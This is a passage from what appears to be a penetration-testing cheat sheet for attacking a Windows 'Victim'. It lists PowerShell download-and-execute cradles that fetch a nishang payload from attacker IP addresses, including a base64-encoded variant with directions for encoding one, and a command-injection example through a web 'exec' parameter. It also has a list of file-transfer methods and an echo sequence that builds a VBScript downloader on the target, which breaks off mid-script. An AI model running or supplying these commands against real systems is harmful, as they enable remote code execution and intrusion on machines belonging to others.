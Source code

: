 Victim

* if in powershell
```
C:/Users/ > IEX(New-Object Net-WebClient).downloadString('http://10.10.10.10:8080/nishang')
```

* if in cmd with powershell installed
```
C:/Users/ > Powershell "IEX(New-Object Net-WebClient).downloadString('http://10.11.0.35:8000/nishang')"

OR 

C:/Users/ > Powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALQBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMAAuADEAMAA6ADgAMAA4ADAALwBuAGkAcwBoAGEAbgBnACcAKQA=

OR

C:/Users/ > Powershell IEX(IWR('http://10.11.0.35:8000/nishang'));

OR 

site.com/?exec=echo IEX(New-Object Net-WebClient).downloadString('http://10.11.0.35:8000/nishang') | powershell -noprofile -

```

> `c:\windows\syswow64\windowspowershell\v1.0\powershell` can also be used instead of `powershell`

> to convert to this base64 format: `$ echo -n "IEX(New-Object Net-WebClient).downloadString('http://10.10.14.3:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64`

## Ways to transfer files

* tftp
* ftp 
* powershell IEX(New-Object Net-WebClient).downloadString('http://10.10.10.10:8080/nishang') or IWR('http://site.com/asdf')
* shares
* Create a `wget.vbs` file as follow on target system

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
```